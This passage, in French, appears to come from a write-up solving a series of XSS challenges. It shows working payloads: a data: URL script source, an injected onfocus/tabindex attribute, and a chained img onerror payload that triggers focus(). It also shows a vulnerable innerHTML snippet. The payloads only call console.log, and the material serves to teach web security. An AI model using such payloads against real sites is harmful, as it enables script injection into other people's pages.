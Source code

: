#### Possibilité 1:
Payload: ``https://vozec.fr/xss``  
Sur mon site: **/xss** retourne ``console.log(3)``

#### Possibilité 2:
[Data doc.](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs)  
On utilise ce type de payload: ``data:[<mediatype>][;base64],<data>``  
Ici, aucun encoding n'est requis, de plus *text/plain* est l'encoding par default ce qui nous arrange puisque cela nous évite d'entrer un */* qui pourrait potentiellement nous déranger pour la suite.

Payload: ``data:,a=console.log(3)``

*(C'est cette dernière méthode que je retiendrai pour la suite. Elle est plus simple et plus concise.)*

### XXS N°4: *XSS à l'intérieur de la balise '\<XSS>'*
Code HTML
```html
(4) <XSS $xss>
```
Les règles sont stricts, nous ne pouvons modifier le tag *XSS* ni le fermer !

J'ai trouvé ici une unique solution pour trigger une XSS dans ce contexte:
- Utiliser les XSS précédente ainsi que l'attribut *onfocus* pour déclencher la XSS

Voici mon payload:
```js
id=x onfocus=console.log(4) tabindex=1
```

Malheuresement, l'attribut *autofocus* ne foncionne pas ce qui implique l'utilisation des précédentes XSS pour trigger celle-ci.
```html
Blocked autofocusing on a <xss> element in a cross-origin subframe.
```

En utilisant la *XSS N°1*, on peut sélectionner le tag *XSS* et utiliser la fonction **focus()** de celui ci.

```js
id=x onfocus=console.log(4) tabindex=1 wtf='<img/src/onerror=console.log(1);document.getElementById(String.fromCharCode(120)).focus();>'
```

### XXS N°5: *Exécuter un DOM XSS en restant à l'intérieur de la valeur d'entrée.*

Voici le code html associé:

```html
(5) <input type="search" id="inpt" value="$xss">    
<p id="dom"></p>
<script>
  var v = document.getElementById('inpt').value
  console.log("[DEBUG] (5) =>", v)//DEBUG
  document.getElementById('dom').innerHTML = '<img src="x" alt="'+v+'">';
</script>
```
